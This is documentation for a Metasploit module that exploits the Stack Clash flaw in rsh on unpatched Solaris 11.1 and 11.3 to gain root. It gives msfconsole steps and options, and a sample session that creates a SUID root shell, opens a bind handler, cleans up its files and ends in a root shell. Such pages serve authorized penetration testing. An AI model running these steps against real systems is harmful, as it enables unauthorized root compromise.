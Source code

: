 ## Description

  This module exploits a vulnerability in RSH on unpatched Solaris
  systems which allows users to gain root privileges.

  The stack guard page on unpatched Solaris systems is of
  insufficient size to prevent collisions between the stack
  and heap memory, aka Stack Clash.

  This module uploads and executes Qualys' Solaris_rsh.c exploit,
  which exploits a vulnerability in RSH to bypass the stack guard
  page to write to the stack and create a SUID root shell.

  This module has offsets for Solaris versions 11.1 (x86) and
  Solaris 11.3 (x86).

  Exploitation will usually complete within a few minutes using
  the default number of worker threads (10). Occasionally,
  exploitation will fail. If the target system is vulnerable,
  usually re-running the exploit will be successful.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 11.1 (x86)
  * Solaris 11.3 (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/rsh_stack_clash_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`.

  **RSH_PATH**

  Path to rsh executable. (default: `/usr/bin/rsh`)

  **WORKERS**

  Number of workers. (default: `10`)


## Scenarios

### Solaris 11.3 (x86)

  ```
  msf > use exploit/solaris/local/rsh_stack_clash_priv_esc
  msf exploit(solaris/local/rsh_stack_clash_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/rsh_stack_clash_priv_esc) > set rhost 172.16.191.221
  rhost => 172.16.191.221
  msf exploit(solaris/local/rsh_stack_clash_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Using target: Solaris 11.3
  [*] Writing '/tmp/.2yZgv2XkEj/.KJqSwhpguh.c' (10297 bytes) ...
  [*] Symlinking /tmp/.2yZgv2XkEj/.KJqSwhpguh to /tmp/.2yZgv2XkEj/ROOT
  [*] Creating suid root shell. This may take a while...
  [*] Completed in 324.21s
  [+] suid root shell created: /tmp/.2yZgv2XkEj/ROOT
  [*] Writing '/tmp/.2yZgv2XkEj/.bWjzWVllCB' (109 bytes) ...
  [*] Executing payload...
  [*] Started bind TCP handler against 172.16.191.221:4444
  [+] Deleted /tmp/.2yZgv2XkEj/.KJqSwhpguh.c
  [+] Deleted /tmp/.2yZgv2XkEj/.KJqSwhpguh
  [!] Tried to delete /tmp/.2yZgv2XkEj/ROOT, unknown result
  [+] Deleted /tmp/.2yZgv2XkEj/.bWjzWVllCB
  [+] Deleted /tmp/.2yZgv2XkEj

  id
  uid=0(root) gid=0(root) groups=10(staff)
  uname -a
  SunOS solaris 5.11 11.3 i86pc i386 i86pc
  cat /etc/release
                               Oracle Solaris 11.3 X86
    Copyright (c) 1983, 2015, Oracle and/or its affiliates.  All rights reserved.
                              Assembled 06 October 2015

  ```

